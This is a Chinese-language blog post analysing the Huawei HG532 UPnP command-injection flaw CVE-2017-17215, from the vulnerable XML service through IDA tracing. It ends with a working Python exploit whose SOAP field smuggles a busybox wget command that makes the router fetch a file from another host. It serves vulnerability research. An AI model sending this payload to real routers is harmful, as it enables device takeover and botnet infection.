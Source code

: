 ```yaml
---
title: CVE-2017-17215 - 华为HG532命令注入漏洞分析
authorId: hac425
tags:
  - pwn
  - CVE-2017-17215
  - ''
categories:
  - 路由器安全
date: 2017-12-28 20:09:00
---
```

### 前言

前面几天国外有个公司发布了该漏洞的详情。入手的二手 `hg532` 到货了，分析测试一下。

固件地址：https://ia601506.us.archive.org/22/items/RouterHG532e/router%20HG532e.rar

### 正文
漏洞位于 `upnp` 服务处理 升级的流程中，用于设备升级的 `upnp` 服务 `xml` 配置文件为 `etc/upnp/DevUpg.xml`.

```
<?xml version="1.0"?>
<scpd xmlns="urn:schemas-upnp-org:service-1-0">
<specVersion>
<major>1</major>
<minor>0</minor>
</specVersion>
<actionList>
<action>
<name>Upgrade</name>
<argumentList>
<argument>
<name>NewDownloadURL</name>
<direction>in</direction>
<relatedStateVariable>DownloadURL</relatedStateVariable>
</argument>
<argument>
<name>NewStatusURL</name>
<direction>in</direction>
<relatedStateVariable>StatusURL</relatedStateVariable>
</argument>
</argumentList>
</action>
<action>
<name>GetSoftwareVersion</name>
<argumentList>
<argument>
<name>NewSoftwareVersion</name>
<direction>out</direction>
<relatedStateVariable>SoftwareVersion</relatedStateVariable>
</argument>
</argumentList>
</action>
</actionList>
<serviceStateTable>
<stateVariable sendEvents="no">
<name>DownloadURL</name>
<dataType>string</dataType>
</stateVariable>
<stateVariable sendEvents="no">
<name>StatusURL</name>
<dataType>string</dataType>
</stateVariable>
<stateVariable sendEvents="no">
<name>SoftwareVersion</name>
<dataType>string</dataType>
</stateVariable>
</serviceStateTable>
</scpd>


```
其中在获取 `NewDownloadURL` 和 	`StatusURL` 后拼接命令，调用了 `system` 执行了。

`ida` 搜关键字 

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1514463385981gpkpn9k5.png?imageslim)


交叉引用找到使用位置。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1514463431730l5deva3o.png?imageslim)

调用 `xml` 相关函数，获取值，拼接后，进入 `system`

他还有 认证 机制，需要 `Authorization` 头 才能过掉 `check`, 否则会 `401`

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15144675714407pfmdkor.png?imageslim)


**exp**

```
import requests

headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;/bin/busybox wget -g 192.168.1.2 -l /tmp/1 -r /1;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://192.168.1.1:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)
```






### 最后

找对固件很重要， 立个 `flag` ,两个月内不用 `f5`. 一个好的蜜罐就是`cve` 接收器呀~~~~~~~



**参考**


https://blog.fortinet.com/2017/12/12/rise-of-one-more-mirai-worm-variant


https://blog.fortinet.com/2017/12/12/rise-of-one-more-mirai-worm-variant